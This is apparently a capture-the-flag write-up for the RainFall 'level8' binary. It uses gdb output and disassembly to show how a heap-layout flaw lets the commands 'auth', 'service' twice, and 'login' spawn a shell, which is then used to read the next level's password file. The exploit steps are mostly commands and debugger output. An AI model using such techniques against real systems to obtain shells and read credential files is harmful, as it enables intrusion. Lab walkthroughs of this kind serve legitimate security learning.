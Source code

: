 The complexity here is to read the operations of the `main`. Let's try the program :

```
level8@RainFall:~$ ./level8
(nil), (nil) 
```

It keeps looping, and keep stdin open listening to its values every time.

```
iVar2 = fgets(auStack144, 0x80, _stdin);
```

Thanks to `fgets`, `stdin` value is saved in `auStack144`.

```
printf("%p, %p \n", _auth, _service); 
```

We understand that there are 2 global variables named `auth` and `service` that can be usefull to us, let's check;

```
(gdb) info variables
All defined variables:

Non-debugging symbols:

...

0x08049aac  auth
0x08049ab0  service

...
```

When we look at the `main` function, we can see that `auStack144` value si compared with the 4 string `"auth " "reset" "service" "login"` that are some kinds of commands; with "login", we have to find how to unlock `system("/bin/sh");`

```
0x080486e2 <+382>:	mov    eax,ds:0x8049aac
0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
0x080486ea <+390>:	test   eax,eax
```
to unlock the shell, there is a check if something comes 32 bytes (0x20) after `auth`.


1. type `auth ` to create a pointer on a memory zone in the heap
```
0x080485eb <+135>:	call   0x8048470 <malloc@plt>
0x080485f0 <+140>:	mov    ds:0x8049aac,eax
0x080485f5 <+145>:	mov    eax,ds:0x8049aac
0x080485fa <+150>:	mov    DWORD PTR [eax],0x0
```

in gdb, I set a breakpoint at the `printf` call :
```
Starting program: /home/user/level8/level8 

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x auth
0x0:	Cannot access memory at address 0x0
(gdb) c
Continuing.
(nil), (nil) 
auth 

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x auth
0x804a008:	0x0000000a
```

1. the `service` command use `strdup` that also uses `malloc`, and we can observe  that its value increases :
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
service
(nil), 0x804a008 
service
(nil), 0x804a018 
```

So we know we must initialize by typing `auth ` one time and then if we calculate :
```
>>> int('0x20', 16) + int('0x804a008', 16)
134520872
>>> hex(134520872)
'0x804a028'
```
so we have to type `service` two times then `login`.

```
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
$ cat /home/user/level9/.pass
```


